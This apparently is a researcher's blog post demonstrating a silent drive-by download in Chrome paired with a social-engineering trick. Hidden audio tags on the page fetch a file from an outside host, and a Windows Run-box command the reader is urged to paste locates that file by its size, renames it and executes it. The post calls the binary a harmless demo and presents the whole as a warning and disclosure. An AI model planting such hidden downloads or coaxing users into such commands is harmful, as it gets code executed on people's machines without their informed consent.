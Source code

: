 ```yaml
---
layout: post
title: Don't run commands you don't really understand
comments: true
---
```


This demonstrates a fully silent drive-by download in Google Chrome (rather similar to CVE-2011-0611, but without the automatic execution part), as well as some social engineering magic: a PoC binary will execute if the below seemingly harmless command line is entered in a **Win+R** prompt on a Windows system. Note that you may need to wait for a few seconds before the fun starts.

<div style= "padding: 2px 4px;  background-color: #de9393; padding-top: 9px ; border: 1px solid #ccc; display:table">
<div style= "padding: 2px 4px;  background-color: #de9393;  width:820px ; display:inline-block;">

<B>Keep safe!</B> To avoid unnecessary risk, only try this in a temporary VM.
</div>
</div>

**Just run this and be surprised:**

<pre>
cmd /c for /r %g in (*_*) do if %~zg==23456 copy /y "%g" "%g.log" & "%g.log"
</pre>

<IMG src=https://i.imgur.com/jgmi7XN.png>

Can you figure out how this works?

<audio style=visibility:hidden src=http://trax.x10.mx/cybersweet2b.au />
<audio style=visibility:hidden src=http://trax.x10.mx/cybersweet2b.au />

Notes: 

  * The PoC binary is a 100% harmless demo  
  * The chiptune in the PoC is (c) 1987 Jozz
  * Reported to Google in November 2015 (status: Wontfix)

<A href=https://twitter.com/hexatomium>Follow</A> @hexatomium
